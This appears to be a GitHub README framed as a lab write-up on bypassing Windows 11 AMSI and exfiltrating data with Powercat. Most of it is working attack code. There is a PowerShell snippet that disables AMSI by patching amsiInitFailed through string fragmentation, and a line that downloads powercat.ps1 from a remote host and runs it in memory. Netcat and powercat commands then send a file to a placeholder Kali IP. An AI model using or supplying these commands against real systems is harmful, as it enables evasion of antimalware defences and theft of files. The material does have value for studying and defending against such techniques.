

# Windows 11 AMSI Bypass & Powercat Exfiltration

This lab demonstrates how to bypass Windows 11 AMSI (Antimalware Scan Interface) using string fragmentation to execute fileless tools.

## 🛠️ Step 1: AMSI Bypass (PowerShell)
To evade detection, the `AmsiUtils` string was fragmented. This allows the script to patch the `amsiInitFailed` field in memory.

```powershell
$part1 = "Am"; $part2 = "si"; $part3 = "Utils"
$secretName = "$part1$part2$part3"
$type = [Ref].Assembly.GetType("System.Management.Automation.$secretName")
$type.GetField("amsiInitFailed","NonPublic,Static").SetValue($null,$true)

# Step 2: Loading Powercat
# Once patched, Powercat was loaded in-memory:
iex (New-Object System.Net.WebClient).DownloadString('[https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1)')

# Step 3: Data Exfiltration (Kali & Windows):
    # On Kali Linux (Receiver):
        nc -nlvp 4444 > received_file.exe

    # On Windows (Sender):
        powercat -c <KALI_IP> -p 4444 -i C:\path\to\file.exe

## 📸 Proof of Success

### 1. AMSI Bypass & Tool Loading


### 2. Connection & Data Received

